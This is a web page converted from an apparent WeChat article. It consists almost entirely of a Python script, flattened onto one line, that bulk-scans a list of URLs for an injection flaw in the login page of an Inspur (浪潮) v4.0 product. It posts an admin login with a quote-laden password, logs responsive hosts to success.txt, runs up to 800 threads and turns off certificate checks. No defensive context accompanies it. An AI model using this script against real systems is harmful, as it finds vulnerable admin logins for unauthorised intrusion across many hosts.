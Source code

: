 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/LjwmNsSNNKoGH7Jp4kEwOQ)

import sys,requests,urllib3,threadingurllib3.disable_warnings()lock = threading.Lock()def exp(url):    exp_url = url + '/login'    headers = {        "User-Agent": "Mozilla/5.0 (Linux; Android 6.0; Nexus 5 Build/MRA58N) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.192 Mobile Safari/537.36"    }    poc ={        'op':'login',        'username':'admin',        'password':"pwd'"    }     try:        ret = requests.post(exp_url,headers=headers,data =poc, timeout=10,verify=False)        if 'unexpected EOF' in ret.text:            lock.acquire()            try:                with open('success.txt','a') as f:                    f.write(exp_url+'\n')                    print(url)                lock.release()            except:                lock.release()    except Exception as e:        print(e)        passdef printf():    print('''use: python3 浪潮 v4.0.py url.txt''')if __name__ == "__main__":    thread = []    if len(sys.argv) != 2:        printf()        exit(0)    with open(sys.argv[1]) as f:        for url in f:            url = url.replace('\n','')            if url.find('http') == -1:                url ='http://'+url            t = threading.Thread(target=exp,args=(url,))            thread.append(t)            t.start()            if len(thread) > 800:                for i in thread:                    i.join                thread = []